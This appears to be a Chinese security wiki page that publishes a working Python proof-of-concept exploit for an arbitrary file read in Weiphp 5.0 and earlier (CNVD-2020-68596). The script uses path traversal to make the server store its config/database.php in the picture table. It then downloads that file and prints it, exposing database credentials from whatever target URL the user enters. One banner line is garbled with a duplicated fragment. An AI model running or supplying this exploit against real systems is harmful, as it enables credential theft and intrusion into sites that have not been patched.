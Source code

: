 <languages   />

<translate>

漏洞影響
--------

</translate>

    Weiphp <= 5.0

POC
---

    #!/usr/bin/python3
    #-*- coding:utf-8 -*-
    # author : PeiQi
    # from   : http://wiki.peiqi.tech


    import requests
    import random
    import re


    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
        print('+  \033[34m公众号 : PeiQi文库                                                \033[0m')                            \033[0m')
        print('+  \033[34mVersion: Weiphp5.0                                                \033[0m')
        print('+  \033[36m使用格式: python3 poc.py                                            \033[0m')
        print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        upload_url = target_url + "/public/index.php/material/Material/_download_imgage?media_id=1&picUrl=./../config/database.php"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
        }
        data = {
            "1":1
        }
        try:
            response = requests.post(url=upload_url, headers=headers, data=data, timeout=20)
            if response.status_code == 200:
                print("\033[32m[o] 成功将 database.php文件 写入Pictrue表中\033[0m")
            else:
                print("\033[31m[x] 漏洞利用失败 \033[0m")
        except:
            print("\033[31m[x] 漏洞利用失败 \033[0m")

    def POC_2(target_url):
        vnln_url = target_url + "/public/index.php/home/file/user_pics"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
        }
        try:
            response = requests.get(url=vnln_url, headers=headers).text
            href = re.findall(r'<img src="(.*?)"', response)
            for i in href:
                print("\033[32m[o] 得到敏感文件url：{}\033[0m".format(i))
                data = requests.get(url=i, headers=headers)
                path = str(random.randint(1,999)) + '.php'
                with open(path, 'wb') as f:
                    f.write(data.content)
                    print("\033[32m[o] 成功下载文件为：{}\033[0m".format(path))
                    print("\033[32m[o] 文件内容为：\n\033[0m{}".format(data.text))
        except:
                print("\033[31m[x] 获取文件名失败 \033[0m")



    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
        POC_1(target_url)
        image_url = POC_2(target_url)

<translate>

參考
----

</translate> <http://wiki.peiqi.tech/PeiQi_Wiki/CMS%E6%BC%8F%E6%B4%9E/Weiphp/Weiphp5.0%20%E5%89%8D%E5%8F%B0%E6%96%87%E4%BB%B6%E4%BB%BB%E6%84%8F%E8%AF%BB%E5%8F%96%20CNVD-2020-68596.html>